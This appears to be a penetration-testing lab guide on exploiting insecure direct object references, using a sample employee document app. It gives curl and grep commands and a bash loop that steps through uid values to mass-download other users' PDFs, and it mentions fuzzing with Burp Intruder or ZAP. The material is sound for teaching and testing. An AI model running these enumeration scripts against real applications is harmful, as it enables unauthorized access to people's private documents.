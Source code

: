 # Mass IDOR Enumeration

Exploiting Insecure Direct Object References (IDOR) vulnerabilities can range from straightforward to complex, depending on the web application's design and access control mechanisms. This guide outlines various techniques for exploiting IDOR vulnerabilities, from basic enumeration to mass data gathering and user privilege escalation.

**Understanding Insecure Parameters**

To illustrate a typical IDOR vulnerability, consider an Employee Manager web application that allows users to access their documents. The application URL might look like this:

```
http://SERVER_IP:PORT/documents.php?uid=1
```

In this scenario, the `uid` parameter is used to display documents associated with a specific employee. If the application lacks proper access control, changing the `uid` value could allow unauthorized access to other employees' documents.

For example, if you change the URL to:

```
http://SERVER_IP:PORT/documents.php?uid=2
```

You might still see the same document list, but upon inspecting the links, you could find that they actually point to documents belonging to the employee with `uid=2`, indicating a classic IDOR vulnerability.

**Mass Enumeration Techniques**

While manually testing each `uid` is possible, it is inefficient for applications with many users. Instead, you can automate the process using tools or scripts.

1.  **Using Curl and Grep** You can use `curl` to fetch the document page and `grep` to extract document links. For instance:

    {% code overflow="wrap" %}
    ```bash
    curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
    ```
    {% endcode %}

    This command retrieves the HTML content and filters for document links.
2.  **Regex for Document Links** To refine the output, you can use a regex pattern to extract only the document links:

    {% code overflow="wrap" %}
    ```bash
    curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
    ```
    {% endcode %}

    This command will return only the relevant document links.
3.  **Bash Script for Mass Downloading** You can create a simple Bash script to loop through multiple `uid` values and download all documents:

    {% code overflow="wrap" %}
    ```bash
    #!/bin/bash

    url="http://SERVER_IP:PORT"

    for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
            wget -q $url/$link
        done
    done
    ```
    {% endcode %}

    This script will download documents for all employees with `uid` values from 1 to 10, effectively exploiting the IDOR vulnerability.

**Advanced Techniques**

For more sophisticated IDOR attacks, understanding how the web application calculates object references and its access control mechanisms is crucial. Here are some advanced techniques:

* **Comparing User Roles**: Register multiple user accounts to compare their HTTP requests and object references. This can help you understand how parameters are generated and potentially exploit them for unauthorized access.
* **Fuzzing Tools**: Utilize tools like Burp Intruder or ZAP Fuzzer to automate the process of testing various `uid` values and retrieving documents.

